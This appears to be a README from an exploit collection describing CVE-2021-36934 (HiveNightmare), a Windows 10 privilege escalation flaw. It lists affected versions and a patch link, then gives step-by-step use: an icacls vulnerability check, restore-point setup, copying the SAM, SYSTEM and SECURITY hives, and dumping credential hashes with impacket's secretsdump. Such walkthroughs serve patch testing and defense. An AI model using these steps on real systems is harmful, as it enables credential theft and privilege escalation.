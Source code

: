 ### CVE-2021-36934

#### Describe

Windows Elevation of Privilege Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10 | x64/x86/ARM64 | 1809 |  |  |
| Windows 10 | x64/x86/ARM64 | 1909 | |        |
| Windows 10 | x64/x86/ARM64 | 2004 | | &#10004; |
| Windows 10 | x64/x86/ARM64 | 20H2 | | |
| Windows 10 | x64/x86/ARM64 | 21H1 | | |

#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-36934
```

#### Utilization

CompilerEnvironment

- VS2019（V140）X64 Release
- VS2019（V140）X86 Release

Test system Windows 10 2004 X64

Use the command to see if the target system is vulnerable to attack

```
icacls C:\windows\system32\config\sam
```

When the following figure shows the machine, it is an easy attack.

![image-20210905164036648](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_1.png)

Then you need to turn on the system restore, right key "This computer-> property", click "System Protection -> Configuration -> Enable System Protection -> Apply -> OK"

![image-20210905164831213](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_2.png)

Then create a system restore point

![image-20210905164912574](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_3.png)

Then you can get the system's SAM and SYSTEM and SECURITY files using Exp. 

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_4.gif)

Finally, use the IMPACKET project to log in.

```
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket/examples 
python3 secretsdump.py -sam SAM-2021-07-11 -system SYSTEM-2021-07-11  -security SECURITY-2021-07-11 LOCAL
```



#### CodeSource

- [GossiTheDog](https://github.com/GossiTheDog/HiveNightmare)